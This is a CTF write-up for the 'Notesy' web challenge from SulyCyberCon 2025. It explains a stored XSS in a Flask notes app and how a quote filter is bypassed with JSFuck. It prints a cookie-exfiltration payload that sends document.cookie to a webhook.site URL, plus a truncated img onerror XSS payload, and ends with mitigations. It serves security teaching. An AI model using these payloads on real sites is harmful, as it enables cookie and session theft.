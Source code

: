 # Web Notesy Challenge Write-up - SulyCyberCon #2025

## Challenge Overview
This was a web challenge featuring a note-taking application with a reporting feature. The goal was to exploit an XSS vulnerability combined with a bot carrying the flag in its cookies.

## Technical Analysis

### Application Components
1. Flask web application for creating and viewing notes
2. Content filtering system that blocks quotes (`'`, `"`, `` ` ``)
3. Report feature with a Selenium bot that visits reported URLs
4. Flag stored in bot's cookies

## Vulnerability Discovery

### 1. Content Validation
The application implements basic filtering in `app.py`:
```python
def is_safe_content(content):
    decoded_content = unquote(content)
    if re.search(r'[\'"`]', decoded_content, re.IGNORECASE):
        return False
    return True
```
This only blocks quotes but allows other HTML tags and JavaScript execution.

### 2. Unsafe Content Rendering
In `view_note.html`, content is rendered without escaping:
```html
<p>{{ note['content'] | safe }}</p>
```

### 3. Bot Behavior
The bot (`bot.py`) follows a specific sequence:

```python
def bot_runner(link):
    client.get("http://127.0.0.1:1337")
    cookie = {
        "name": "FLAG",
        "value": open('/flag.txt').read().strip(),
        "domain": "127.0.0.1",
        "path": "/"
    }
    client.add_cookie(cookie)
    client.get(link)
```
## Exploitation Steps

### 1. Setting Up Request Catcher
- Instead of setting up a server, we use [webhook.site](https://webhook.site/)
- This provides a free URL to capture incoming HTTP requests
- Perfect for receiving exfiltrated data from XSS payloads

### 2. Bypassing Quote Filters with JSFuck
1. Create base payload to exfiltrate cookies:
   ```javascript
   fetch("https://webhook.site/xxxxxx/xxxxxx?c="+btoa(document.cookie));
   ```

2. Convert payload using [JSFuck](https://jsfuck.com/)
   - JSFuck converts JavaScript code to code using only 6 characters: `[]()!+`
   - This effectively bypasses quote filters since it doesn't use any quotes

3. Create the final XSS payload:
   ```html
   <img src=x onerror=[][(![]+[])<snip>...<snip>[+!+[]]]>
   ```
   Note: The actual JSFuck output is much longer but achieves the same result

### 3. Executing the Attack
1. Create a new note with the JSFuck XSS payload
2. Get the note's unique URL
3. Submit URL to the report feature
4. Monitor webhook.site dashboard
![image](https://github.com/user-attachments/assets/9281d9cb-7225-49ae-96a1-b06827d3cacc)

### 4. Getting the Flag
When the bot visits our note:
1. Flag cookie is set
2. XSS payload executes
3. Cookie is base64 encoded and sent to webhook.site
4. Decode the base64 parameter from the received request to get the flag

## Why This Works
1. Quote filter bypass:
   - JSFuck uses only `[]()!+` characters
   - No quotes needed for JavaScript execution
   
2. Cookie exfiltration:
   - Bot adds flag cookie before visiting our URL
   - Cookie isn't marked HttpOnly
   - JavaScript can access and exfiltrate it

## Mitigation
To prevent this attack:
1. Implement proper HTML escaping
2. Remove `| safe` from templates
3. Set HttpOnly flag on sensitive cookies
4. Implement Content Security Policy (CSP)
5. Use better input sanitization beyond just filtering quotes

## Conclusion
This challenge demonstrated:
- Creative ways to bypass character filters using JSFuck
- Importance of proper XSS mitigation
- Value of free tools like webhook.site for CTF solving
- Why HttpOnly flags are crucial for sensitive cookies


